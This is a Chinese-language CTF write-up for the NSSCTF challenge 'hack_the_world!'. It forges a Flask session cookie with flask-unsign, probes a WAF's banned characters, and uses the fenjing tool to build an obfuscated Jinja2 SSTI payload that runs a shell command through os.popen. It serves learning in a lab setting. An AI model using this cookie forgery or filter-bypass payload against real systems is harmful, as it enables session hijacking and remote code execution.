


## 基本信息

- 题目名称： [NSSRound#30 Duo]hack_the_world!
- 题目链接： https://www.nssctf.cn/problem/6672
- 考点清单： ssti，session伪造，jwt
- 工具清单： python环境，flask-unsign，burpsuite，yakit

## 一、看到什么

下载附件后得到flask源码，进行代码审计，发现有ssti漏洞，不过有其他限制：session认证机制和一些过滤机制

## 二、想到什么解题思路

针对于session认证机制，可以通过修改伪造jwt来绕过

针对于过滤waf，可以发送fuzz字典来判断哪些字符被限制了

针对于ssti漏洞可以尝试用fenjing在本地搭建的靶场来测试获得payload然后获得flag

## 三、尝试过程和结果记录

首先访问靶机，查看当前的cookie值



无法直接修改，修改后无法通过，用`flask-session-cookie-manager`或`Flask-Unsign`伪造

这里选择用flask-unsign

```bash
flask-unsign --sign --cookie "{'user':'hacker'}" --secret "NSS"
eyJ1c2VyIjoiaGFja2VyIn0.aD7neg.KGfe1URZmpIpS_7IaLPGd4PwCwQ
```

然后访问`/hack`路由，发现成功通过这关，使用burpsuite或者yakit批量发送自己积累的字符字典



可以测出来被waf掉的字符有

```waf
['.','/','mro','read','%','_',']']
```

又因为注释中说没有nc，ping，curl，那么dns外带的方式不可能，就选择写入静态文件，在前端看尝试看flag，或者发送反弹shell拿flag也可

```bash
cat /flag > /app/static/script.js
```

然后把这个过滤的内容改到我本地环境起的靶机中的限制条件里，然后用`fenjing`拿到对应的payload

```payload
{{lipsum|attr(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'globals'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)|attr('get')(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'builtins'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)|attr('get')(lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last+'import'+lipsum|escape|batch(22)|list|first|last+lipsum|escape|batch(22)|list|first|last)('os')|attr('popen')("\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x20\x3e\x20\x2f\x61\x70\x70\x2f\x73\x74\x61\x74\x69\x63\x2f\x73\x63\x72\x69\x70\x74\x2e\x6a\x73")|attr('r''ead')()}}
```

然后发送后可以在前端的js文件中得到flag

## 四、总结与反思

在遇到ssti注入的问题时，自己无法构造出payload或者想快速构造payload可以用本地环境以及配合工具`fenjing`获得